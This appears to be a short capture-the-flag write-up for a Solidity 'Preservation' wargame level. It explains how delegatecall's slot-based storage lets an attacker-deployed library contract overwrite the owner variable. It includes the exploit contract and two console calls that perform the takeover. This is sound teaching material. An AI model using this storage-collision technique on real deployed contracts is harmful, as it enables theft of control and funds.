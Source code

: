 ### Analysis
The key to solving this problem is understanding that delegatecall does not store data by variable name, but rather by storage slot position!

### The Exploit
We can exploit this by deploying our own contract:
~~~
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract PreservationSolution {
    address timeZone1Library;
    address timeZone2Library;
    address owner;

    function setTime(uint256) external {
        owner = tx.origin;
    }
}
~~~
Call setFirstTime,set the slot 0 is the address of our own contract.Then call setFirstTime again with any value to run our solution code:
~~~
await contract.setFirstTime(<evil-library-contract-address>);
await contract.setFirstTime('0x0'); // Value doesn't matter
~~~